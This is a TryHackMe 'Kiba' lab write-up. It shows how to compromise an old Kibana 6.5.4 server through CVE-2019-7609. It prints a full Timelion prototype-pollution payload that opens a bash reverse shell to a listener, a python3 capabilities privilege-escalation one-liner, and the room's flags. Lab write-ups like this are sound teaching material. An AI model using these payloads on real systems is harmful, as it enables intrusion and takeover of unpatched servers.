 # kiba

If we try to access kibana through browser by IP address, we won't get direct access. It will display this page :

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/0fa7feb7-4810-44fd-aa97-1530bbab484f)

So through http port we can't get access of kibana. Thus, we will look for open ports of provided IP.

Initiate nmap scan to the provided IP.

`sudo nmap -p- 10.10.174.118`

As we can see the open ports through nmap scan, `5601/tcp` is the `esmagent` of Enterprise Service Management.

Give `<ip>:port` to access kibana. (`10.10.174.118:5601`)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/7a3aab02-518c-4720-8b2f-4c21bc3bb4fb)

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

    Prototype Pollution
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### What is the version of visualization dashboard installed in the server?

    Ver 6.5.4
    
    In Kibana, go to Management tab 
    
    There we can see the Version : 6.5.4 mentioned.
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/1b1b4e75-ccb3-4044-b392-7ee831cad2fe)


### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

    CVE-2019-7609
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### Compromise the machine and locate user.txt

        THM{1s_easy_pwn3d_k1bana_w1th_rce}
        
Copy this payload

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i >& /dev/tcp/10.9.19.3/4444                      0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

* Open `Timelion` in kibana and paste the payload in the provided box.
* Start a netcat listener

![03](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f29fb475-b117-49b8-8935-655069cd21b0)

* Go to Canvas tab, we will get the response from reverse shell and we'll redirected to kiba directories.

![05](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/5a186195-a9a6-49bd-9959-75d39d9a0a3d)

### How would you recursively list all of these capabilities?

* By using command `getcap -r/`

![07](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f19f99be-1e64-4d4b-9e46-f083a7edd1ee)


![08](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/369f7e22-497f-463e-b95d-03b3b87e09e3)

### Escalate privileges and obtain root.txt

* Traverse to ./hackmeplease/ directory
        
* Give command  `./python3 -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’`

        THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/d5f6f110-18c1-4147-872e-9cb106ea4c62)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/794d592b-9799-405f-b3dd-600ba5827818)
